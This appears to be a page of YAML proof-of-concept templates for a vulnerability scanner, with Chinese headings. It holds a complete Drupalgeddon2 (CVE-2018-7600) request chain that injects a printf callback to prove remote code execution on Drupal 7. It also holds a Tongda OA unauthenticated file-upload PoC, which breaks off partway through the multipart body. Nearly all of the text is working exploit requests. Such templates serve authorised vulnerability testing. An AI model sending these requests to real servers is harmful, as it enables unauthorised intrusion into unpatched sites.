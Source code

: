 
**Drupal7 drupalgeddon2 命令执行漏洞（CVE-2018-7600**

```yaml
name: poc-yaml-drupal-drupalgeddon2-rce
rules:
  - method: POST
    path: "/?q=user/password&name[%23post_render][]=printf&name[%23type]=markup&name[%23markup]=test%25%25test"
    headers:
      User-Agent: "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)"
    body: |
      form_id=user_pass&_triggering_element_name=name&_triggering_element_value=&opz=E-mail+new+Password
    search: |
      name="form_build_id"\s+value="(.+?)"
    expression: |
      status==200
  - method: POST
    path: "/?q=file%2Fajax%2Fname%2F%23value%2F{{1}}"
    headers:
      User-Agent: "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)"
    body: |
      form_build_id={{1}}
    expression: |
      body.bcontains(b'test%test')
detail:
  drupal_version: 7
```



**通达OA-RCE-POC示例**

```yaml
name: poc-yaml-tongda-oa-rce
set:
  rand: randomInt(200000000, 210000000)
rules:
  - method: POST
    path: /ispirit/im/upload.php
    headers:
      User-Agent: 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36'
      Content-Type: >-
        multipart/form-data;charset=utf-8;boundary=---------------------------27723940316706158781839860668
      Accept-Encoding: 'deflate'
    body: |-
      -----------------------------27723940316706158781839860668
      Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
      Content-Type: image/jpeg

      {{rand}}
      -----------------------------27723940316706158781839860668
      Content-Disposition: form-data; name="P"

      {{rand}}
      -----------------------------27723940316706158781839860668
      Content-Disposition: form-data; name="DEST_UID"

      {{rand}}
      -----------------------------27723940316706158781839860668
      Content-Disposition: form-data; name="UPLOAD_MODE"

      1
      -----------------------------27723940316706158781839860668
```